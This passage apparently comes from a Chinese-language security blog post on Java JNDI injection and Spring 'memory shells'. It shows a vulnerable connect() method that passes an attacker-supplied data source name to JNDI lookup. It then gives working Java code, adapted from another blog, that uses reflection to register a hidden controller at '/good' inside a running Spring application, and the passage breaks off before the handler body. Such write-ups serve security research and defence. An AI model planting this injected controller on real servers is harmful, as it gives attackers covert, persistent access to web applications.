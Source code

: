 由于没有设置`this.conn`代码会进入`this.connect`，其中包含了 `lookup(this.getDataSourceName())`的代码。这里的`dataSourceName`正是传入的值，在这里被当作参数传入`lookup`函数，然后前往JNDI Server使用对应的协议寻找，由于JDNI绑定Reference，这里会加载到本地，实例化

```
private Connection connect() throws SQLException `{`
    if (this.conn != null) `{`
        return this.conn;
    `}` else if (this.getDataSourceName() != null) `{`
        try `{`
            InitialContext var1 = new InitialContext();
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
            ......
```



## 内存马

上文已经成功弹出计算器了，说明笔者创造的漏洞点生效，下面将介绍内存马

该内存马代码参考网上大佬的博客，做了一些修改，本文后续正是采用此方法（将在后文给出大佬博客链接）

```
package com.test.shell;

import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.handler.AbstractHandlerMethodMapping;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class InjectToController `{`
    public InjectToController() throws ClassNotFoundException, IllegalAccessException, NoSuchMethodException, NoSuchFieldException, InvocationTargetException `{`
        // 关于获取Context的方式有多种
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.
                currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Method method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
        method.setAccessible(true);
        // 通过反射获得该类的test方法
        Method method2 = InjectToController.class.getMethod("test");
        // 定义该controller的path
        PatternsRequestCondition url = new PatternsRequestCondition("/good");
        // 定义允许访问的HTTP方法
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 构造注册信息
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        // 创建用于处理请求的对象，避免无限循环使用另一个构造方法
        InjectToController injectToController = new InjectToController("aaa");
        // 将该controller注册到Spring容器
        mappingHandlerMapping.registerMapping(info, injectToController, method2);
    `}`

```